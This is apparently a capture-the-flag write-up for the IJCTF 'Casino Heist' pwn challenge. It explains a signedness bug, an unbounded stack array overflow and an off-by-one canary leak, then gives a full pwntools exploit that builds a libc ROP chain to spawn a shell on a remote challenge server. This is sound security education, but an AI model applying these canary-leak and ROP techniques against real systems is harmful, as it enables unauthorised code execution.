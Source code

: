 IJCTF Pwn Challenge Writeup by Shiro (Pycatchown sometimes)
# Casino Heist

## Part 1 - Reverse engineering

The code is terrible (of course, it's a challenge).

Sometimes ints are used, sometime it's int64, sometimes it's signed, sometimes it's not, well, we quickly identify at least one of the vulnerabilities without even really digging into the code.

We have a wallet, this wallet starts at 20 dollars, we can bet at least 5 dollars and no more than our wallet. If we fall at 0, the program exits itself, we can jackpot, and we can double the bet sometimes by adding a "m" at the end of our number.
Each bets are append into a array of uint64, which is located into the stack. It's of size 10, and isn't bounded by anything, which means that if we can make more than 10 bets without go bankrupt, we can overflow this array.

I didn't noticed the last bug instantly because I didn't realized the binary was compiled with stack smashing protection, but there is also an off by one in the print_bets function, which prints one element too far.
```c
for ( i = 0; ; ++i )
  {
    result = (unsigned int)idx_jour;
    if ( i > idx_jour )
      break;
    printf("Bet #%d: Value %ld\n", (unsigned int)i, a1[i]);
  }
```
Here we can see the condition is to break when i is strictly superior to idx_jour (the index used on the array we can overflow), since an array starts at 0, we can print one element too far.

## Part 2 - Exploitation

We're on a CTF so at this point I go straight away and fuzz a little, expecting the binary to bug out with negative or big values (thanks to the fact that the types are not coherent with each functions), so I did a little script that plays the binary over and over again until I win twice a bet with the maximum of my wallet, I tried to bet again with a value doubled, and I ended up with a negative wallet.

Since not everything is signed, that meant that my negative value was considered a very big number since the wallet on itself is stored within a uint64, which means that I could basically bet any values I wanted (well, almost). That also meant that I was not limited by luck anymore in order to apply as many bets as I wanted since my wallet was practically infinite.

So I tried to overflow the array of int64, and succeeded overflowing the binary until the saved rip.
However, the binary is compiled with stack protection flag, which means if we want to exploit, we'll have to either find a way not to overwrite the canary, or find a way to leak it.

Here comes the off by one on the print_bets function, which allows us to get the value we're about to overwrite before overwritng it.

At this point it's won, since we have a leak we don't bother leaking anything thanks to the rop itself, we just leak the canary, the original value of the saved rsp (since we smash the main) so we can have a libc leak, and go straight for `execv("/bin/sh", NULL)`.

## 3 - Exploit code

```python
#!/usr/bin/env python
from pwn import *

exe = context.binary = ELF('boiler')
context.terminal = "gnome-terminal --geometry=110x60 -- bash -c".split(" ")


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REM:
        return remote("34.126.147.93", 2200)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled


def exploit():
    offset_til_saved_rsp = 117

    for i in range(offset_til_saved_rsp-3):
        x = io.sendlineafter(b"Enter bet value: ", "5", timeout=5)
        print(x)
        if x == b"":
            io.interactive()

    ## Leaking canary/libc adress and overflowing
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #117: Value ")
    canary = int(io.recvline())
    print(hex(canary))
    io.sendlineafter(b"Enter bet value: ", str(canary))
    io.sendlineafter(b"Enter bet value: ", "5")
    print("a") # Don't mind, it's just a trick to make the remote IO working
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #119: Value ")
    libcleak = int(io.recvline())
    print(hex(libcleak))
    libc = ELF("./libc-2.31.so")
    libc.address = libcleak- 0x270b3
    ##

    ##Because I'm lazy (Rop writing into the stack)
    rop = ROP(libc)
    rop.execv(next(libc.search(b"/bin/sh\x00")), 0)
    x = rop.chain()
    payload = [x[i:i+8] for i in range(0, len(x), 8)]
    for gadget in payload:
        gadget = u64(gadget)
        io.sendlineafter(b"Enter bet value: ", str(gadget))
    ##
    io.sendline("x") # exit main loop
    io.interactive()


while 1:
    io = start()

    io.sendlineafter(b"name:\n", b"a")
    io.sendlineafter(b"value: ", b"20")
    res = io.recvline()
    if b"lose" in res:
        io.close()
        continue
    else:
        io.sendlineafter(b"value: ", b"40")
        res = io.recvline()
        print(res)
        if b"lose" in res:
            io.close()
            continue
        else:
            #context.log_level = "DEBUG"
            io.sendlineafter(b"value: ", b"80m")
            #gdb.attach(io, gdbscript="b *(unsigned long long*)(&main+1322)")
            exploit()
            io.interactive()
            io.close()
            exit(0)
```

Thanks to the author if this challenge, lionaneesh. We don't see a lots of type mis-management challenges and more generally, I enjoy challenges wich doesn't only rely in one vulnerability, so this was a fun one to me.
